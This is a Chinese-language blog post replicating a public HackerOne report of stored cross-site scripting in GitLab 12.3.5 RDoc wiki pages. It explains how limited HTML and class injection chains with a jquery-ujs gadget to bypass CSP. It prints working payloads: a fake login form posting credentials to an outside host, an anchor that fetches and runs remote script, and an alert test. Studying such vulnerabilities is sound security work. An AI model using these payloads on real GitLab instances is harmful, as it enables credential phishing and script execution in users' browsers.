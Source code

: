 ```yaml
---
layout: post
title: "Replication: Gitlab Cross-site Scripting (XSS) - Stored in RDoc wiki pages"
date: 2023-12-25 10:31:06 +0800
categories: xss
---
```


## Name

> Gitlab Cross-site Scripting (XSS) - Stored in RDoc wiki pages

## Weakness

> XSS

## Severity

> 高危

## Environment

> Ubuntu 18.04
> gitlab 12.3.5

> 原文：[https://hackerone.com/reports/662287](https://hackerone.com/reports/662287)

## URL

## Summary

该漏洞存在于用 md 构建 wikipage 这一过程，由于后端没有对 rdoc(和 markdown 很像，ruby 文档生成器)进行严格处理，导致用户能够注入大量 html 代码，这个漏洞太经典了，后续很多漏洞都是以此为基础而利用。

![rdoc](/assets/gitlab/1/rdoc.png)

报告过程

1. 2019 年 7 月 28 日，首先找到 rdoc 渲染问题，用户能够将 image 嵌入到 a 标签中，并且能够注入 class 属性。
2. 注入的 class 属性利用了原应用的类，将 a 标签 z-index 置顶，诱导用户点击。
3. 用户甚至能够注入 html 代码，构造钓鱼弹框。但是还没涉及到 xss。（以上是 ruby 后端渲染漏洞）
4. 攻击者发现可以注入特定类的 html 代码，拼接前端的 jquery 代码，实现 xss 注入。该处还未实现 csp 绕过。
5. 2 个月后，2019 年 10 月 13 日，该漏洞还未修复。并且 gitlab 引用了新的漏洞代码 jquery-ujs，利用 data-method 属性，实现 csp 绕过。（以上是前端漏洞）
6. 总结下来，该漏洞分为三部分，第一部分是 html 注入，第二部分是 xss 注入，第三部分是 csp 绕过。
7. 因此，复现以最新版本进行，2019 年 10 月 13 日发布的 gitlab12.3.5。

要点：

1. class 注入，改变元素外观，从而触发点击
2. a 标签包围 img 标签，img 设置为无限大，触发点击
3. jquery-ujs 的 data-method
   jquery-ujs 提供了一些额外的特性，如将 data-remote 属性应用到链接和表单上，然后使用 AJAX 请求提交数据，或者利用 data-confirm 属性显示确认对话框。

### backend, rails

payload

```
a form
{
<div class="modal show d-block">
<div class="modal-dialog">
<div class="modal-content">
<div class="modal-header">
<h3 class="page-title">Please Log In</h3>
</div>
<div class="modal-body">
<form class="new-wiki-page" action="http://aw.rs/">
<div class="form-group">
<label for="username"><span>Username</span></label>
<input type="text" name="username" id="username" class="form-control">
<label for="password"><span>Password</span></label>
<input type="password" name="password" id="password" class="form-control">
</div>
<div class="form-actions"><button name="button" type="submit" class="btn btn-success">Login</button></div>
</form>
</div>
</div>
</div>
</div>
}[/]
```

可以看到能够注入 `div、h3、form、label、input` 等标签，以及 `class、action、id、type` 等属性。 后端渲染时可以注入部分标签、class 和部分属性，但是 data 属性无法注入，应该是后端做了过滤。因此才会利用前端 gadget 来注入新的包含 `data-*`属性的 a 标签，因此该攻击的本质是，首先通过后端注入有限的 html，然后再通过前端 gadget 来注入无限的 html。
提交该数据的 url 为 post 方法：*http://10.206.44.19:8033/root/xss/wikis*

### frontend, jquery gadgets

需要点击触发 jquery-ujs 的 data-method 方法，也就是说只要网站支持 jqeury-ujs，并且能够注入 a 标签及其属性，那么 xss 必然出现

payload1:

```
{
<form class="gl-show-field-errors">
<input type="text" title="&#x3C;/p&#x3E;&#x3C;a data-remote=&#x22;true&#x22; data-confirm=&#x22;Are you sure&#x22; data-method=&#x22;get&#x22; data-type=&#x22;script&#x22; href=&#x22;https://gitlab.com/vakzz-h1/public/-/raw/master/test.js&#x22; class=&#x27;atwho-view select2-drop-mask pika-select&#x27;&#x3E;&#x3C;img height=10000 width=10000&#x3E;&#x3C;/a&#x3E;">
}[#]
```

后端渲染结果：

```
<form class="xxx"><input type="" title="xxx">
```

前端渲染后：

```
<form><a data-method='get'><img></a></form>
```

经过测试 jquery-ujs 会直接执行 script，如下面代码片段，在最新版本上测试可以 xss：

```
<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery-ujs/1.2.3/rails.js"></script>
<a data-remote="true" data-confirm="Are you sure" data-method="get" data-type="script"
        href="https://gitlab.com/vakzz-h1/public/-/raw/master/test.js">
        jquery-ujs xss test
</a>
```

其中 data-type 对应 ajax 的 type 字段，参考

- [https://github.com/rails/jquery-ujs/wiki/Unobtrusive-scripting-support-for-jQuery-%28list-of-data-attributes%29#data-type](https://github.com/rails/jquery-ujs/wiki/Unobtrusive-scripting-support-for-jQuery-%28list-of-data-attributes%29#data-type)
- [https://api.jquery.com/jQuery.ajax/](https://api.jquery.com/jQuery.ajax/)

```
dataType (default: Intelligent Guess (xml, json, script, or html))
"script": Evaluates the response as JavaScript and returns it as plain text. Disables caching by appending a query string parameter, _=[TIMESTAMP], to the URL unless the cache option is set to true. Note: This will turn POSTs into GETs for remote-domain requests. an XML MIME type will yield XML, in 1.4 JSON will yield a JavaScript object, in 1.4 script will execute the script, and anything else will be returned as a string
```

例如在 chrome-tools control+p 搜索：jquery-ujs 关键字，看目标网站是否有该库

![ujs](/assets/gitlab/1/ujs.png)

payload2:

```
{
<form class="gl-show-field-errors">
<input type="text" title="<script>alert(11)</script>">
}[#]
```

从下一个复现漏洞中得知利用前端 jquery 片段的漏洞，由于该漏洞需要在页面初始化时才会调用，而本次复现，后端渲染的漏洞代码直接通过路由页面返回。因此 main.js 得以执行触发该漏洞。
